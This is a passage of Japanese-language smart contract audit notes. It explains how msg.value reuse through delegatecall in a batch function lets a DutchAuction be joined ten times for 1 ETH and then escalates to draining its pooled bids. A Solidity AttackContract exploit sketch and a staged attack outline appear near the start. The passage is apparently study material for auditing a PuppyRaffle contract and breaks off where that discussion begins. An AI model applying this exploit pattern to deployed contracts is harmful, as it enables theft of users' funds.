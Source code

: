 **Component A + B: 危険な組み合わせ**
```solidity
// 攻撃シナリオ
contract AttackContract {
    function exploit() external payable {
        bytes[] memory calls = new bytes[](10);
        
        // 同じmsg.valueを10回再利用
        for(uint i = 0; i < 10; i++) {
            calls[i] = abi.encodeWithSelector(
                DutchAuction.commitEth.selector, 
                address(this)
            );
        }
        
        // 1 ETHで10 ETH分の参加権を取得
        auction.batch{value: 1 ether}(calls, false);
        
        // さらに上限超過による全資金盗取も可能
    }
}
```

### delegatecallによるmsg.value再利用の危険性

#### **delegatecallの特性**
```solidity
// 通常のcall（安全）
contract.method{value: 1 ether}();  // 新しいコンテキスト
// → 各呼び出しで新しいmsg.value

// delegatecall（危険な可能性）
address(contract).delegatecall(data);  // 元のコンテキスト保持
// → msg.sender, msg.value, storage すべて共有
// → 同じmsg.valueが複数回使用される
```

#### **攻撃の段階的発展**
```solidity
// Phase 1: 無料参加の発見
// - 1 ETHで複数回のオークション参加
// - msg.valueの重複利用

// Phase 2: 資金盗取への発展（samczsunが発見）
// - 意図的に上限額を超過
// - 返金機能で全入札資金を取得
// - 109,000 ETH全額の盗取可能性
```

### PuppyRaffleへの教訓と監査ポイント

#### **現在のPuppyRaffleでの検証すべき点**
